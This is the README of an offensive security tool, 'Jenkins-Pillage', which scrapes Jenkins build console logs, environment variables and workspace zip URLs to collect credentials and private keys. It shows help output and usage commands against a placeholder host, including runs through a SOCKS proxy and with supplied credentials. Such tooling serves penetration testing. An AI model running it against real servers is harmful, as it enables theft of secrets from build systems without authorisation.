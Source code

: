 # Jenkins-Pillage
This tool will attempt to pull console output, environment variables, and workspaces associated with Jenkins builds. It works both against unauthenticated and authenticated (with creds) servers. 

Typically lots of sensitive information may be retrieveable from these locations and this tool aims to automate the pillaging of that info. Credentials, API endpoints, private keys, and much more have been gathered using Jenkins-Pillage. 

## Requirements
 - Python3
 - pip3 install requests
 - pip3 install bs4

## Help Info
```
$ ./jenkins-pillage.py --help
usage: jenkins-pillage.py [-h] [-b BUILD_URL] [-u USERNAME] [-p PASSWORD]
                          [-l LIST_URL] [-a AUTO] [-f]

Pillage sensitive information from Jenkins servers

optional arguments:
  -h, --help            show this help message and exit
  -b BUILD_URL, --buildurl BUILD_URL
                        The build URL to pillage
  -u USERNAME, --user USERNAME
                        The Basic Auth username for the service
  -p PASSWORD, --password PASSWORD
                        The Basic Auth password for the service
  -l LIST_URL, --list LIST_URL
                        Lists all found build URLs to use with -b
  -a AUTO, --auto AUTO  Automatically perform -l and then -b on a root URL
  -f, --force           Force the URLs to use the supplied socket (in case the
                        server returns localhost)
```
## Usage
Easy mode:
```
./jenkins-pillage.py -a https://jenkins.example.com
Getting a list of all build URLs
https://jenkins.example.com/job/Application0/4
https://jenkins.example.com/job/Application1/6
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
Attempting: https://jenkins.example.com/job/Application1/6
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
...
```

List all build URLs recursed from a top level URL:
```
./jenkins-pillage.py -l https://jenkins.example.com
https://jenkins.example.com/job/Application0/4
https://jenkins.example.com/job/Application1/6
...
```

Pull the console output, workspace zip url, and environment variables of a build recursed from above:
```
./jenkins-pillage.py -b https://jenkins.example.com/job/Application0/4
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
-- FOUND WORKSPACE ZIP URL
```
Same but behind an SSH proxy and needs creds to work:
```
export all_proxy=socks4a://localhost:1080
./jenkins-pillage.py -b https://jenkins.example.com/job/Application0/4 -u admin -p Password1
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
-- FOUND WORKSPACE ZIP URL
```
The files are pulled down to the current directory. The URL for the zip download is placed in a file as opposed to downloading the zip because many of the zips I've seen can easily fill up your hard drive. 

## Caveat
Jenkins has a _lot_ of available plugins that could also house sensitive data. Use this tool as a first step in pillaging Jenkins boxes. This tool is not a substitute for manual review and is considered in beta so YMMV. Pull requests for additional features are welcome.